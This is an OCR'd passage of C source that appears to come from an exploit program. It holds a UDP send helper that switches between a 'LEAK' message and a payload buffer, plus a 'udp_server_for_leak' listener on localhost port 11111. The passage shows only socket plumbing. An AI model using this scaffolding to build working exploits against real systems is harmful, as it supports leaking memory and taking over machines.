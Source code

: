 ```c
        {
            .sin_family = AF_INET,
            .sin_port = port,
            .sin_addr.s_addr = inet_addr("127.0.0.1"),
        };

    if (connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr)) < 0)
    {
        perror("connect");
        exit(EXIT_FAILURE);
    }

    if (type == LEAK)
    {
        if (send(sockfd, buf, strlen(buf), 0) < 0)
        {
            perror("send");
            exit(EXIT_FAILURE);
        }
    }
    else
    {
        if (send(sockfd, buf, payload_size, 0) < 0)
        {
            perror("send");
            exit(EXIT_FAILURE);
        }
    }

    printf("  [-] sent udp packet %s\n", buf);
    printf("  [-] sent udp packet to %d\n", ntohs(port));

    close(sockfd);
}

void udp_server_for_leak(void *data)
{
    int sockfd;
    char buffer[1024];
    struct sockaddr_in servaddr, cliaddr;
    socklen_t len;
    ssize_t n;

    if ((sockfd = socket(AF_INET, SOCK_DGRAM, 0)) < 0)
    {
        perror("socket creation failed");
        exit(EXIT_FAILURE);
    }

    memset(&servaddr, 0, sizeof(servaddr));
    memset(&cliaddr, 0, sizeof(cliaddr));

    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(11111);
    servaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    if (bind(sockfd, (const struct sockaddr *)&servaddr, sizeof(servaddr)) < 0)
    {
        perror("bind failed");
        exit(EXIT_FAILURE);
    }

    len = sizeof(cliaddr);
```